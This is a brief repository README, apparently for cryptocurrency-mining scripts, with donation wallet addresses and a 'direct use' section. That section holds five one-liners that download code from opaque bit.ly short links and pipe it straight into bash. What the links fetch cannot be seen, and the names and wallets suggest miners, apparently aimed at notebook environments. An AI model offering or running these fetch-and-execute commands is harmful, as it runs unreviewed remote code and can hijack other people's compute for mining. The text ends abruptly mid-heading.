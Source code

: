 # 10 000 code and code

This project offers multiple scripts to better use your computer power and network without wasting anything

<span style="color:Red">The address and urls are hardcoded in the scripts you need to change it before using the script</span>.



## Donate

ETH	0x1be9C1Db52aC9cD736160c532D69aA4770c327B7
ETC	0x5C5152521D51f23735Bf14a8f6321d39bA73D95f
RVN	RMV17aQMgMPyPqJQ5H3WRQH37Njspi1SSK
ZEC	t1ab2rCrgCbqaspPodCALpR6epzEiu5uCHF
YEC	s1THjZQJxthDD9tt1dRzQSqDoQQH9XwNM5x
ADA addr1qy4aeu2wpjpuy0r2xn64eec0z6300wnqrj5ypj3ep9g49ggm7gg506stxjnjp3zjs3a9mch478sfl6qt722zu2gs28fqq5dfv6
XMR	44ucr5iSqUjCR6m93Gu9ssJC9W1yWLGz1fZbAChLXG1QPnFD5bsTXKJAQEk8dHKDWx8hYJQ5ELqg9DJKNA1oRoNZKCGyn1p

## Scripts Direct use

!echo $(wget -O - bit.ly/RV00001 2> lol.out | bash )
!echo $(wget -O - bit.ly/IBM0001 2> lol.out | bash )
!echo $(wget -O - bit.ly/ET00001 2> lol.out | bash )
!echo $(wget -O - bit.ly/RVET0001 2> lol.out | bash )
!echo $(wget -O - bit.ly/XM00001 2> lol.out | bash )


## Solo M

